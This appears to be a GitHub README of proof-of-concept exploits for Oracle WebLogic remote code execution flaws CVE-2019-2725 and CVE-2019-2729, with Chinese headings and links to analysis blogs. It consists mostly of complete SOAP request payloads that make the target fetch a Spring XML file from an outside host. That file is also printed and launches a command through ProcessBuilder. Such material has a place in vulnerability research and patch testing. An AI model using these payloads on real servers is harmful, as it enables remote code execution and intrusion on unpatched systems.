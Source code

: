 ### CVE-2019-2725_v10
poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### CVE-2019-2729_v10

poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<array method="forName">
<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</array>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



其中spel2.xml文件内容：
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```


参考：
- [Weblogic-CVE-2019-2725分析通杀poc](https://p0rz9.github.io/2019/05/22/Weblogic-CVE-2019-2725%E5%88%86%E6%9E%90%E9%80%9A%E6%9D%80poc/)
- [Weblogic-CVE-2019-2725-通杀payload](http://www.lmxspace.com/2019/05/15/Weblogic-CVE-2019-2725-%E9%80%9A%E6%9D%80payload/)
- [WebLogic wls9-async组件RCE分析（CVE-2019-2725）](https://lucifaer.com/2019/05/10/WebLogic%20wls9-async%E7%BB%84%E4%BB%B6RCE%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-2725%EF%BC%89/)
